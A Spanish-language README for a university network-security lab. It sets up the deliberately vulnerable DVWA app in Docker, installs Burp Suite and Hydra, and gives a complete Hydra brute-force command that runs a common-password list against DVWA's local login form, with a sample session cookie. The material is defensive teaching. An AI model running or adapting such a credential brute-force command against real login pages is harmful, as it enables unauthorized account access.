 # Laboratorio 2 de Criptografía y Seguridad en redes

- Para levantamiento de Docker, descargar carpeta de https://github.com/digininja/DVWA y escribir:

      sudo docker compose up -d
- Para la descarga de Burpsuite, ir a https://portswigger.net/burp/communitydownload
- Luego de descargar el archivo .sh, ingresar:
-     chmod +x burpsuite\_community\_linux\_v2025\_2\_4.sh
      sudo burpsuite\_community\_linux\_v2025\_2\_4.sh
- Para la descarga de Hydra, se debe ingresar:
-       sudo apt install hydra
- Para ver la versión instalada, sintaxis y opciones, basta con ingresar "hydra" en la terminal.
- El comando para su uso corresponde a:
-       hydra 127.0.0.1 -s 8080 -L usuarios.txt -P 200_contrasenas_mas_usadas.txt http-get-form "/vulnerabilities/brute/index.php:username=^USER^&password=^PASS^&Login=Login:H=Cookie: PHPSESSID=7c94922a8fce407024d5c9438fb33525; security=low; :F=Username and/or password incorrect."
-   Donde se debe reemplazar el PHPSESSID por el propio.
